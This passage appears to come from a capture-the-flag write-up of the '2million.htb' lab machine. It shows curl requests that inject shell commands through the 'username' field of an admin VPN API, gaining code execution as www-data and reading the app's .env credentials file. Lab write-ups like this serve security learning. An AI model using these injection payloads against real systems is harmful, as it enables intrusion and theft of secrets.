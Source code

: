 #### Admin VPN

```bash
└─$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i'

└─$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i' -d ''
{"status":"danger","message":"Invalid content type."} 

└─$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i' -H 'Content-Type: application/json' -d '{}'
{"status":"danger","message":"Missing parameter: username"}             

└─$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i' -H 'Content-Type: application/json' -d '{"username": "test02"}' -so test02_admin.ovpn
```

#### RCE

I don't think we are able to connect to VPN so let's try something else. The generated certificates look awfully similar to what linux tool generate, most probably the username is passed to the command line.

```bash
└─$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i' -H 'Content-Type: application/json' -d '{"username": "test02; ls -alh"}'

└─$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i' -H 'Content-Type: application/json' -d '{"username": "test02;id"}'

└─$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i' -H 'Content-Type: application/json' -d '{"username": "test02;id#"}'

└─$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i' -H 'Content-Type: application/json' -d '{"username": "test02;id #"}'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`/api/v1/admin/vpn/generate` is vulnerable to RCE

#### Applications env variables

```bash
└─$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i' -H 'Content-Type: application/json' -d '{"username": "test02;ls -alh #"}'
total 56K
drwxr-xr-x 10 root root 4.0K Jul 28 10:50 .
drwxr-xr-x  3 root root 4.0K Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1.3K Jun  2  2023 Database.php
-rw-r--r--  1 root root 2.8K Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4.0K Jul 28 10:50 VPN
drwxr-xr-x  2 root root 4.0K Jun  6  2023 assets
drwxr-xr-x  2 root root 4.0K Jun  6  2023 controllers
drwxr-xr-x  5 root root 4.0K Jun  6  2023 css
drwxr-xr-x  2 root root 4.0K Jun  6  2023 fonts
drwxr-xr-x  2 root root 4.0K Jun  6  2023 images
-rw-r--r--  1 root root 2.7K Jun  2  2023 index.php
drwxr-xr-x  3 root root 4.0K Jun  6  2023 js
drwxr-xr-x  2 root root 4.0K Jun  6  2023 views

└─$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i' -H 'Content-Type: application/json' -d '{"username": "test02;cat .env #"}'
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
```